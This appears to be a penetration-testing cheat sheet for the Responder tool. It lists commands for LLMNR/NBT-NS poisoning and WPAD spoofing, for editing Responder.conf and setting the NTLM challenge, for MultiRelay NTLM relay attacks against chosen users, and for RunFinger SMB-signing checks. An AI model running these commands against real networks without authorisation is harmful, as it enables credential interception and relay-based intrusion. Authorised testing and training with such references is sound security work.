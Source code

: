 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
#plateform/linux #target/remote #cat/RECON 
```
responder –I eth0 -A
```

## responder launch with wpad file 
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I eth0 --wpad
```

## responder http on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder challenge set
#plateform/linux #target/local #cat/UTILS
Set the NTLM challenge for cracking

= challenge: 1122334455667788
```
sed -i 's/Challenge =.*$/Challenge = <challenge>/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## responder challenge reset
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/Challenge =.*$/Challenge = 1122334455667788/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#plateform/linux #target/remote #cat/RECON 
```
runfinger -i <network_range>
```
